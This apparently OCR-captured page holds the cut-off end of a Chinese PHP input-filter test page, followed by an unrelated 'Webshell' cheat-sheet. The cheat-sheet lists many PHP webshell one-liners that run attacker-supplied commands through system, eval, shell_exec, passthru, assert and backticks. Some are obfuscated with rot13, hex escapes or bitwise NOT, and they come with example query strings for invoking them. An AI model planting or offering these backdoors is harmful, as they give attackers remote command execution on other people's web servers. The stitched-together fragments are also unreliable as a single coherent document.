 ```
<meta charset="UTF-8" />
<title>输入过滤测试</title>
</head>
<body>

<h2>输入过滤测试页面</h2>

<form method="post" action="">
    <textarea name="input" rows="6" cols="60"><?php echo htmlspecialchars($input); ?></textarea><br>
    <button type="submit">提交</button>
</form>

<?php if ($input !== ''): ?>
    <h3>原始输入：</h3>
    <pre><?php echo htmlspecialchars($input, ENT_QUOTES | ENT_HTML5); ?></pre>

    <h3>过滤后输出（不允许 HTML）：</h3>
    <pre><?php echo $filtered; ?></pre>
<?php endif; ?>

</body>
</html>


```

# Webshell

## PHP Webshell

```php
<?php system($_GET["cmd"]); ?>
<?php system($_GET[1]); ?>
<?php system("`$_GET[1]`"); ?>
<?= system($_GET[cmd]);
<?=`$_GET[1]`;
<?php eval($_POST[cmd]);?>
<?php echo `$_GET[1]`;
<?php echo passthru($_GET['cmd']);
<?php echo shell_exec($_GET['cmd']);
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
<script language="php">system("id"); </script>

<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")

<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")

<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id

<?php @include($_FILES['u']['tmp_name']);  
// 構造 <form action="http://x.x.x.x/shell.php" method="POST" enctype="multipart/form-data">上傳
// 把暫存檔include進來
// From: http://www.zeroplace.cn/article.asp?id=906

<?php $x=~¾¬¬º­«;$x($_GET['a']); ?>
// not backdoor (assert)
// .php?a=system("ls")
```